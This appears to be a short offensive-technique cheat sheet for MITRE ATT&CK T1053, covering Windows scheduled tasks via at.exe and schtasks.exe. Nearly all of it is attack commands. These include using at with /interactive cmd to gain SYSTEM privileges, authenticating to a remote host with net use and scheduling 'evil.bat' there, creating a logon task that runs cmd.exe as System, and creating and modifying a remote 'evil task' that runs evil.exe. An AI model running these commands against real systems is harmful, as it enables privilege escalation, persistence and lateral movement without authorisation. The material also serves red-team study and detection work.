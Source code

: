 ## Scheduled Task

MITRE ATT&CK Technique: [T1053](https://attack.mitre.org/wiki/Technique/T1053)

### Utilities such as at and schtasks, along with the Windows Task Scheduler, can be used to schedule programs or scripts to be executed at a date and time

[Examples Of Creating Tasks](https://technet.microsoft.com/en-us/library/cc725744(v=ws.11).aspx#BKMK_create)

## at.exe

Note: deprecated in Windows 8+

### Privileged Escalation

This command can be used locally to escalate privilege to SYSTEM or be used across a network to execute commands on another system.

Input:

    at 13:20 /interactive cmd

Example:

    net use \\[computername|IP] /user:DOMAIN\username password
    net time \\[computername|IP]
    at \\[computername|IP] 13:20 c:\temp\evil.bat

## schtask.exe

### Launch Interactive cmd.exe

Input:

    SCHTASKS /Create /SC ONCE /TN spawn /TR C:\windows\system32\cmd.exe /ST 20:10

Input:

    schtasks /create /tn "mysc" /tr C:\windows\system32\cmd.exe /sc ONLOGON /ru "System"
    
### Remote Scheduled Task
#### Create, modify, remove scheduled task (replace IP with target)
Input:
    
    SCHTASKS /Create /S 127.0.0.1 /RU <DOMAIN>\<USER> /RP <Password> /TN "evil task" /TR "c:\Windows\System32\evil.exe" /SC daily /ST 17:00

Input:
    
    SCHTASKS /Change /S 127.0.0.1 /RU <DOMAIN>\<USER> /RP <Password> /TN "evil task" /ST 17:01

